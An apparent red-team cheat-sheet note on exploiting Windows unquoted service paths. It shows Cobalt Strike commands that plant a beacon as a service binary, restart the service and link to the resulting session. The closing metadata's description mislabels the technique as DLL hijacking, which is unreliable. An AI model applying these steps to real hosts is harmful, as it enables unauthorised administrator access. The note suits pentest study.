 # Unquoted Service Paths
An unquoted service path is where the path to the [[Windows Services]] binary is not wrapped in quotes and contains spaces.

## Conditions to exploit
1. Vuln-Service has spaces in the path and is also not quoted
2. Check permissions to write into the paths based on the search order
	1.  `C:\Program.exe`
	2.  `C:\Program Files\Vuln.exe`
	3.  `C:\Program Files\Vuln Service\Service.exe`
3. Generate malicious service binary. We can do this in Cobalt Strike via **Attacks > Packages > Windows Executable (S)** and selecting the **Service Binary** output type.
```````beacon
cd C:\Program Files\Vuln Service
upload C:\Payloads\beacon-tcp-svc.exe
mv beacon-tcp-svc.exe Service.exe
run sc stop Vuln-Service
run sc start Vuln-Service
```````

4. Check beacon and connect (if TCP listener is used)
``````
run netstat -anp tcp
[...snip...]
TCP    127.0.0.1:4444         0.0.0.0:0              LISTENING

connect localhost 4444
[+] established link to child beacon: 10.10.17.231
``````


## Tools
########
########


```meta
ttp: T1574.009
requirements: 
results: admin
description: Hijacking the search order hirarchy of a applications DLL.
```